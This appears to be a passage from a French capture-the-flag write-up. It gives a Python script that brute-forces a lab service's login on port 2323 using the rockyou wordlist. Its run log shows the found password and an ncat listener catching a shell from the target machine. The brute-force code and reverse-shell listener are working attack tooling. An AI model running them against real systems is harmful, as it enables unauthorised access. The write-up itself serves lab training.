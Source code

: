```python
import sys
import socket
import os

from words2num import w2n

sock = socket.socket()
sock.connect(("192.168.56.46", 2323))

def read_until(sock_fd, data):
    while True:
        buff = sock.recv(1024)
        if data in buff.strip():
            break

username = sys.argv[1].encode()
with open(sys.argv[2], "rb") as fd:
    for i, line in enumerate(fd):
        password = line.strip()
        read_until(sock, b"username:")
        sock.send(username + b"\r\n")
        sock.recv(2014)  # Password prompt
        sock.send(password + b"\r\n")
        buff = sock.recv(1024).strip()
        if not buff.startswith(b"Wrong password for user"):
            print(f"password {password.decode()} gave response '{buff.decode()}'")
            port = w2n(buff.decode())
            os.system(f"ncat -v -l -p {port}")
            break

        buff = sock.recv(1024)
        if b"user does not exist" in buff:
            print("No such user")
            break

        if b"bye!" in buff:
            sock.close()
            sock = socket.socket()
            sock.connect(("192.168.56.46", 2323))

        if i % 1000 == 0:
            print("line", i)
```

Exécution :

```shellsession
$ python3 brute.py admin rockyou.txt
line 0
password booboo gave response 'ONE THOUSAND TWO HUNDRED NINETY'
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1290
Ncat: Listening on 0.0.0.0:1290
Ncat: Connection from 192.168.56.46.
Ncat: Connection from 192.168.56.46:42976.
Microsoft Windows 6.1.7601 (4.0)

Z:\home\fox>ls
Can't recognise 'ls' as an internal or external command, or batch script.

Z:\home\fox>dir
Volume in drive Z has no label.
Volume Serial Number is 0000-0000

```